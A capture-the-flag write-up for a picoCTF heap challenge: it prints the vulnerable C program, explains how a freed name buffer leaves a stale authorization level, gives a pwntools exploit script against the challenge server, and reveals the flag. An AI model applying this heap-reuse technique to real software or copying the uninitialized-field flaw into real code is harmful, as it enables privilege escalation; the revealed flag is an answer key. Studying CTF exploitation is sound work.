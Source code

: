 ![title](images/title.png)

![hint](images/hint.png)

### auth.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>

typedef enum auth_level {
  ANONYMOUS = 1,
  GUEST = 2,
  USER = 3,
  ADMIN = 4,
  ROOT = 5
} auth_level_t;
  
struct user {
  char *name;
  auth_level_t level;
};

void give_flag(){
  char flag[48];
  FILE *f = fopen("flag.txt", "r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  if ((fgets(flag, 48, f)) == NULL){
    puts("Couldn't read flag file.");
    exit(1);
  };
  
  puts(flag);
  fclose(f);
}

void menu(){
  puts("Available commands:");
  puts("\tshow - show your current user and authorization level");
  puts("\tlogin [name] - log in as [name]");
  puts("\tset-auth [level] - set your authorization level (must be below 5)");
  puts("\tget-flag - print the flag (requires authorization level 5)");
  puts("\treset - log out and reset authorization level");
  puts("\tquit - exit the program");
}

int main(int argc, char **argv){
  char buf[512];
  char *arg;
  uint32_t level;
  struct user *user;

  setbuf(stdout, NULL);

  menu();

  user = NULL;
  while(1){
    puts("\nEnter your command:");
    putchar('>'); putchar(' ');

    if(fgets(buf, 512, stdin) == NULL)
      break;

    if (!strncmp(buf, "show", 4)){
      if(user == NULL){
	puts("Not logged in.");
      }else{
	printf("Logged in as %s [%u]\n", user->name, user->level);
      }

    }else if (!strncmp(buf, "login", 5)){
      if (user != NULL){
	puts("Already logged in. Reset first.");
	continue;
      }

      arg = strtok(&buf[6], "\n");
      if (arg == NULL){
	puts("Invalid command");
	continue;
      }

      user = (struct user *)malloc(sizeof(struct user));
      if (user == NULL) {
	puts("malloc() returned NULL. Out of Memory\n");
	exit(-1);
      }
      user->name = strdup(arg);
      printf("Logged in as \"%s\"\n", arg);

    }else if(!strncmp(buf, "set-auth", 8)){
      if(user == NULL){
	puts("Login first.");
	continue;
      }

      arg = strtok(&buf[9], "\n");
      if (arg == NULL){
	puts("Invalid command");
	continue;
      }

      level = strtoul(arg, NULL, 10);

      if (level >= 5){
	puts("Can only set authorization level below 5");
	continue;
      }

      user->level = level;
      printf("Set authorization level to \"%u\"\n", level);

    }else if(!strncmp(buf, "get-flag", 8)){
      if (user == NULL){
	puts("Login first!");
	continue;
      }

      if (user->level != 5){
	puts("Must have authorization level 5.");
	continue;
      }

      give_flag();
    }else if(!strncmp(buf, "reset", 5)){
      if (user == NULL){
	puts("Not logged in!");
	continue;
      }

      free(user->name);
      user = NULL;

      puts("Logged out!");
    }else if(!strncmp(buf, "quit", 4)){
      return 0;
    }else{
      puts("Invalid option");
      menu();
    }
  }
}
```

We are going to take advantage of a variable that is unitialized (the auth int).

## Strategy

1. Login with something that fills the user variable. Its 64bit ELF so 'AAAAAAAA' will do just fine
2. Add the auth number we want (5) to the end in 64bit format using pwntools
3. Free the user memory using the reset command in the menu which will clear our login but should keep the auth level to use on the next login
4. Login with whatever and get the flag. POC Below

### apple.py

```python
#!/usr/bin/env python

from pwn import *
import sys

context.log_level = 'critical'

argc = len(sys.argv)

def command(data):
	p.recvuntil('> ')
	p.sendline(data)
	return p.recvline()

def login(name):
	return command('login ' + name)

def show():
	return command('show')

def reset():
	return command('reset')

def get_flag():
	return command('get-flag')

if argc > 1:
	p = remote('2018shell.picoctf.com', 45906)
else:
	p = process('./auth')

login('A'*8 + p64(0x5))
reset()
login('test')
print get_flag()
p.close()
```

<details>
	<summary>Flag</summary>

picoCTF{m3sS1nG_w1tH_tH3_h43p_3dc31505}
</details>
